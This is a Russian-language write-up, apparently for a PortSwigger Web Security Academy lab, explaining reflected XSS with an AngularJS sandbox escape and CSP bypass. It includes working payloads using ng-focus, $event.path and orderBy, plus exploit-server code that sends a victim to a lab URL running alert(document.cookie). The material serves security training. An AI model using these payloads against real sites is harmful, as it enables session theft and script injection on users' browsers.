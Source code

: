 # Reflected XSS with AngularJS sandbox escape and CSP

## Theory

<h3>Как работает обход AngularJS CSP?</h3>

Обход политики безопасности контента (CSP) работает аналогично стандартным побегам из песочницы, но обычно включает в себя некоторую HTML-инъекцию. Когда режим CSP активен в AngularJS, он по-разному анализирует выражения шаблона и избегает использования конструктора функций. Это означает, что стандартный побег из песочницы, описанный выше, больше не будет работать.

В зависимости от конкретной политики CSP будет блокировать события JavaScript. Однако AngularJS определяет свои собственные события, которые можно использовать вместо них. Внутри события AngularJS определяет специальный объект $event, который просто ссылается на объект события браузера. Вы можете использовать этот объект для выполнения обхода CSP. В Chrome в объекте $event/event есть специальное свойство path. Это свойство содержит массив объектов, которые вызывают выполнение события. Последним свойством всегда является объект окна, который мы можем использовать для выхода из песочницы. Передав этот массив фильтру orderBy, мы можем перечислить массив и использовать последний элемент (объект окна) для выполнения глобальной функции, такой как alert(). Следующий код демонстрирует это:
```
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
```

Обратите внимание, что используется функция from(), которая позволяет преобразовать объект в массив и вызвать заданную функцию (указанную во втором аргументе) для каждого элемента этого массива. В этом случае мы вызываем функцию alert(). Мы не можем вызвать функцию напрямую, потому что песочница AngularJS проанализирует код и обнаружит, что объект окна используется для вызова функции. Вместо этого использование функции from() эффективно скрывает объект окна из песочницы, позволяя нам внедрить вредоносный код.

<h3>Обход CSP с выходом из песочницы AngularJS</h3>

Один из способов скрытия объекта окна из песочницы AngularJS это — использовать функцию array.map() следующим образом:
```
[1].map(alert)
```

map() принимает функцию в качестве аргумента и вызывает ее для каждого элемента массива. Это позволит обойти песочницу, поскольку ссылка на функцию alert() используется без явной ссылки на окно. Чтобы решить лабораторную задачу, попробуйте различные способы выполнения alert() без запуска обнаружения окна AngularJS.

## Writeup

Главная страница:

![](./assets/1.png)

Перейдем на exploit server.

![](./assets/2.png)

В поле body поместим эксплоит. Сохраняем эксплоит и отправляем жертве. Код эксплоита:
```
<script>
location='https://0a3c00a103fb86f7c073bdf0003b0031.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

Код Экплоита без URL кодировки:
```
<script>
location='https://0a3c00a103fb86f7c073bdf0003b0031.web-security-academy.net/?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x';
</script>
```

![](./assets/3.png)

Получаем ответ от сервера.

![](./assets/4.png)
